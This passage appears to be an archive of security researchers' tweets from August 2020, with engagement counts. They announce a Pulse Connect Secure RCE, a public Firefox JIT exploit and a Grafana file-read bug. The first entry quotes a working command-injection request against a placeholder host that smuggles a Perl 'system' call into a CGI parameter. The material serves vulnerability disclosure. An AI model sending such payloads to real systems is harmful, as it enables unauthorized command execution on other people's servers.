 https://x.x.x.x/dana-admin/license/downloadlicenses.cgi?cmd=download&amp;txtVLSAuthCode=whatever -n '($x="ls /",system$x); #' -e /data/runtime/tmp/tt/setcookie.thtml.ttc

https://t.co/4HZaKORE6s
</blockquote>

* https://www.gosecure.net/blog/2020/08/26/forget-your-perimeter-rce-in-pulse-connect-secure/

<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>187</code></td>
<td>Favorites: <code>367</code></td>
</tr></table>

---

# maxpl0it
**https://twitter.com/maxpl0it/status/1299068051044921347 _at 2020-08-27, 19:35:33_**
<blockquote>
Published my exploit for CVE-2019-17026 (Firefox JIT bug):

https://t.co/YeFsnSVYDv

No sandbox escape included but if anybody wants a challenge, chain it with CVE-2020-0674 for a neat sandbox escape on Windows!
</blockquote>

* https://github.com/maxpl0it/CVE-2019-17026-Exploit/

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>130</code></td>
<td>Favorites: <code>318</code></td>
</tr></table>

---

# ptswarm
**https://twitter.com/ptswarm/status/1299001548320600064 _at 2020-08-27, 15:11:18_**
<blockquote>
We are releasing an article about an Authenticated Arbitrary File Read vulnerability (CVE-2019-19499) in Grafana! Dive into Go SQL client libraries, quirks of the MySQL protocol, and more! https://t.co/s5ddu1w7GM
</blockquote>

* https://swarm.ptsecurity.com/grafana-6-4-3-arbitrary-file-read/

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>118</code></td>
<td>Favorites: <code>289</code></td>
</tr></table>

---